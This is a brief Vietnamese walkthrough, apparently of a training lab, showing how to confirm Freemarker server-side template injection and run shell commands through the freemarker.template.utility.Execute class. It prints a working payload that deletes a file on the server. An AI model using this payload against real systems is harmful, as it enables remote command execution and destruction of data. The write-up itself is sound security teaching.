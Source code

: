 ![image-20250707233245104](./image/image-20250707233245104.png)

=> Lỗi cho thấy trang web đang dùng **Freemarker** (template engine).

Theo tài liệu Freemarker:

- Các biểu thức: `${ someExpression }`
- Built-in `new()` có thể tạo ra đối tượng Java bất kỳ (miễn là lớp đó implement interface `TemplateModel`).

- Trong phần JavaDoc về các lớp implement `TemplateModel`, phát hiện lớp:

```
freemarker.template.utility.Execute
```

Lớp này cho phép chạy **shell command**.

Từ documentation, và theo ví dụ của @albinowax:

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("rm /home/carlos/morale.txt") }
```

